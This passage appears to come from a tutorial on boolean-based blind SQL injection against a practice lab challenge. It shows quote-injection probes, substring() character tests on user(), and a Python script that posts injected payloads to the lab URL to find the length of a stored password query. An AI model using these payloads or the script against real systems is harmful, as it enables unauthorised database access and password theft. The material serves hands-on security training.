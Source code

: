 If we inject a single quote, the response will return `500 Internal server error` which is not usual.

![Boolean_single_quote](D:\Vulnerabilities_Tutorial\Practice\Boolean_single_quote.png)



Let's try to fix the query using `'and '1'='1` and the response will be normal again.

![Boolean_fix_query](D:\Vulnerabilities_Tutorial\Practice\Boolean_fix_query.png)

If we try `order by` or `union` statement here will not working because there is no error messages returned.

So, we can send queries that returns true (green message) if the query is valid and false (red message) otherwise.

We can use `substring()` function to brute force and extract a part of a string based on specified starting and ending positions. Let's use it to exfiltrate data.

> ```
> SUBSTRING(string, start, length)
> ```
>
> - **`string`**: The input string from which you want to extract a part.
> - **`start`**: The position to start extracting. (1-based index, i.e., the first character is at position 1.)
> - **`length`**: The number of characters to extract.

Let's try to extract user of the database `user()` using `substring(user(),1,1)='a`.

In this query the substring returns the first character of `user()` and compare it with letter `a`, if true, the green message will appear in the response, otherwise the red message will fire.

![Boolean_substring_1](D:\Vulnerabilities_Tutorial\Practice\Boolean_substring_1.png)

![Boolean_substring_2](D:\Vulnerabilities_Tutorial\Practice\Boolean_substring_2.png)

![Boolean_substring_3](D:\Vulnerabilities_Tutorial\Practice\Boolean_substring_3.png)

We can see the first and second characters of `user()` is `bl`. But doing this manually is tough, so, I create a script to automate the process.

```python
import requests

headers = {
    "Content-Type": "application/x-www-form-urlencoded",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36"
}
url = "https://livelabs.0x4148.com/challenges/boolean_1/"
target_text = "A password reset email has been sent."

# Determine the length of the query result
query_length = 0
query = "select password from users limit 1"
for i in range(1, 100):
    payload = f"username=admin' and length(({query}))={i} and 1='1&reset_password="
    response = requests.post(url, headers=headers, data=payload)
    if target_text in response.text:
        query_length = i
        print(f"Query result length: {query_length}")
        break

if query_length == 0:
    print("Failed to determine query result length.")
    exit(1)
```